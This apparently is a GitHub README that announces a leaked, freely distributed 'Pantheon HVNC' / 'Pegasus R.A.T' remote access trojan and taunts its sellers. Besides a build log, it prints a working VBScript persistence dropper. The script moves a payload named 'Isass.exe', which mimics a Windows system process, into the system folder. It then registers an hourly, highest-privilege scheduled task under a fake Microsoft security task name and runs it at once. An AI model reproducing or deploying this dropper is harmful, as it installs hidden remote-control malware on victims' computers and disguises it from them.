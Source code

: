 # Pantheon-HVNC-V2-Source-leaked

 * here is Pegasus/Pantheon HVNC or skynet?
@TheSkynetCorporation this post is for all peopledon't get scammed by buying shitty HVNC! 
**Updated Time : 18/04/2022**
     **Next Update 24/04/2022**
     
Since guy is seriously distrubed in head, source and recompiled coming in bit


![bahahahahaha](https://user-images.githubusercontent.com/1867768/164896945-cb1327fb-ae23-4dcd-b561-d065b302e98a.png)

hahahahhahahahaahhahaahahahahahhaahahhahahaah

Who is selling what actually?? Dude it's FREE here and always will be now do some gipsy magic and puff off ;)
Damn dude how low you can go?




▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄

I would kindly ask you ***not to bother me*** with questions like it won't compile help
or if you get that obviuos error like damn resource is missing heeeeelp - simply ***I don't care(especially for statements I can't wait, I want and similar. Feel free to purchase garbage mentioned above or reverse yourself).***
***Im not*** posting this so kids could play hackers, ***nor do I support reversed projects.***
Anyways if one decide to msg me with similar bs, please before you do download [ILSpy](https://github.com/icsharpcode/ILSpy/).
IF one manage to compile it without issues feel free to contact me if not go back to ***Hello world apps.***

▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄


![Screenshot_1](https://user-images.githubusercontent.com/1867768/164581897-d8b3750c-90e5-49b2-9ea5-35bd7f3d9f98.png)

[Except ones compiled from full source ;)]
https://streamable.com/ghpv5y
```
Build started...
1>------ Build started: Project: Pegasus R.A.T, Configuration: Release Any CPU ------
1>  Pegasus R.A.T -> S:\iPwnNoobPony\Pegasus42\Source\Pegasus R.A.T\bin\Release\Pegasus R.A.T.exe
========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========

```
on error resume next
set o=createobject("wscript.shell")
'f=o.ExpandEnvironmentStrings("%appdata%\Pantheon")
f=o.ExpandEnvironmentStrings("%appdata%")
c = "cmd /c md " & f 
'o.run c,0,1
WScript.Sleep(1000)
'c = "cmd /c move " & chr(34) & f & "\..\Isass.exe" & chr(34) & " " & chr(34) & f & chr(34)
c = "cmd /c move " & chr(34) & f & "\Isass.exe" & chr(34) & " " & chr(34) & "C:\windows\syswow64" & chr(34)
o.run c,0,1
'c = "schtasks /create /f /tn " & chr(34) & "OneDrive.{7d01bf11-6e05-4dfd-8936-9366c7d70b4d}" & chr(34)
c = "schtasks /create /f /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34)
c = c & " /sc hourly /rl highest /tr " & chr(34) & "c:\windows\syswow64\Isass.exe" & chr(34)
o.run c,0,1
Wscript.Sleep(2000)
o.run "schtasks /run /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34),0,0
```

Keep up the good work ^^

![resim](https://user-images.githubusercontent.com/103955692/163860298-2adb53c3-f030-43ad-8b0b-66f84201a688.png)
![resim](https://user-images.githubusercontent.com/103955692/163860309-780b3942-cd64-4cec-bb43-931416d5993b.png)
![resim](https://user-images.githubusercontent.com/103955692/163860330-fb515385-55ec-4846-9e17-71684636f900.png)

**https://www.pantheon.one/**

